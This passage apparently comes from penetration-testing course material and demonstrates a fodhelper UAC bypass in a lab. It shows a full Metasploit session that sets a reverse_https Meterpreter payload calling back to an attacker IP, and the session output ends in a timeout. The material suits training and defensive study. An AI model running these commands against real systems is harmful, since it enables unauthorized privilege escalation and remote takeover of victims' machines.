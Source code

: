 Based on the highlighted section of Figure 7, the PowerShell prompt is running in high integrity.

This is obviously only a simple proof-of-concept but it has been weaponized by exploitation frameworks including Metasploit so let's test it out.

First, we'll use one of our many shellcode runners to obtain a reverse Meterpreter shell on the Windows 10 victim machine and use that active Meterpreter session to launch the fodhelper UAC bypass module. Listing 56 shows the executed UAC bypass module:

```
msf5 exploit(multi/handler) > use exploit/windows/local/bypassuac_fodhelper

msf5 exploit(windows/local/bypassuac_fodhelper) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows x86
   1   Windows x64


msf5 exploit(windows/local/bypassuac_fodhelper) > set target 1
target => 1

msf5 exploit(windows/local/bypassuac_fodhelper) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                               Connection
  --  ----  ----                     -----------                               ----------
  1         meterpreter x64/windows  victim\Offsec @ victim  192.168.119.120:443 -> 192.168.120.11:51474 (192.168.120.11)

msf5 exploit(windows/local/bypassuac_fodhelper) > set session 1
session => 1

msf5 exploit(windows/local/bypassuac_fodhelper) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf5 exploit(windows/local/bypassuac_fodhelper) > set lhost 192.168.119.120
lhost => 192.168.119.120
msf5 exploit(windows/local/bypassuac_fodhelper) > set lport 444
lport => 444
msf5 exploit(windows/local/bypassuac_fodhelper) > exploit

[*] Started HTTPS reverse handler on https://192.168.119.120:444
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[-] Exploit failed [user-interrupt]: Rex::TimeoutError Operation timed out.
[-] exploit: Interrupted
```
